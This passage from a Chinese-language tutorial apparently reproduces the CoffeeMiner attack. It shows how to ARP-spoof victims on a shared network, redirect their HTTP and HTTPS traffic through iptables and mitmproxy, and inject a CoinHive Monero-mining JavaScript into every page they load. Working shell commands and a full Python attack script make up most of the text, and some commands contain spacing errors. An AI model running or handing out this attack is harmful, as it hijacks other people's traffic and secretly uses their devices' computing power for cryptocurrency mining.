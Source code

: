 上述代码可以迅速搭建一台简单的HTTP服务器，并负责向目标用户发送我们的JS挖矿工具。JavaScript脚本存放在/miner_script目录中，本文将使用[CoinHive](https://coinhive.com/)作为JavaScript挖矿工具。

### 2.5 CoinHive
[CoinHive](https://coinhive.com/)是一种专门挖门罗币（[Monero](https://coinmarketcap.com/es/currencies/monero/)）的JavaScript挖矿工具，它可以直接注入到网站之中，并利用目标设备的CPU算力来挖门罗币（基于[CryptoNote](https://cryptonote.org/)协议）。

在我们的实验场景中，我们会将挖矿代码注入到目标用户所请求的每一个HTML页面之中，然后建立持久性的会话并计算哈希（挖门罗币）。
![/img/2018-01-25/15167751091809.png](http://image.3001.net/images/20180124/15167751091809.png)

## 三、脚本代码整合
首先，我们需要配置ip_forwarding和IPTABLES，并将攻击者的设备打造成代理：
```
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables-t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables-t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

为了执行ARP欺骗攻击，我们需要准备一份“victims.txt”文件并存储所有的目标用户IP地址。下列Python代码可以帮我们完成IP地址的读取任务：
```
# get gateway_ip
gateway= sys.argv[1]
print("gateway:" + gateway)
# getvictims_ip
victims= [line.rstrip('\n') for line in open("victims.txt")]
print("victims:")
print(victims)
# runthe arpspoof for each victim, each one in a new console
for victim in victims:
os.system("xterm -e arpspoof -i eth0 -t " + victim + "" + gateway + " &")
os.system("xterm -e arpspoof -i eth0-t " + gateway + " " + victim + " &")
```

ARP欺骗攻击开始后，我们还需要运行HTTP服务器：
```
>python3 httpServer.py
```

现在我们就可以用injector.py来运行mitmproxy了：
```
>mitmdump -s 'injector.py http://httpserverIP:8000/script.js'
```

### 3.1 CoffeeMiner+最终的脚本代码
‘coffeeMiner.py’完整的脚本代码如下：
```
import os
import sys
#get gateway_ip (router)
gateway= sys.argv[1]
print("gateway:" + gateway)
# get victims_ip
victims= [line.rstrip('\n') for line in open("victims.txt")]
print("victims:")
print(victims)
#configure routing (IPTABLES)
os.system("echo1 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables-t nat -A POSTROUTING -o eth0 -j MASQUERADE")
os.system("iptables-t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port8080")
os.system("iptables-t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port8080")
# runthe arpspoof for each victim, each one in a new console
for victim in victims:
os.system("xterm -e arpspoof -i eth0-t " + victim + " " + gateway + " &")
os.system("xterm -e arpspoof -i eth0-t " + gateway + " " + victim + " &")
#start the http server for serving the script.js, in a new console
```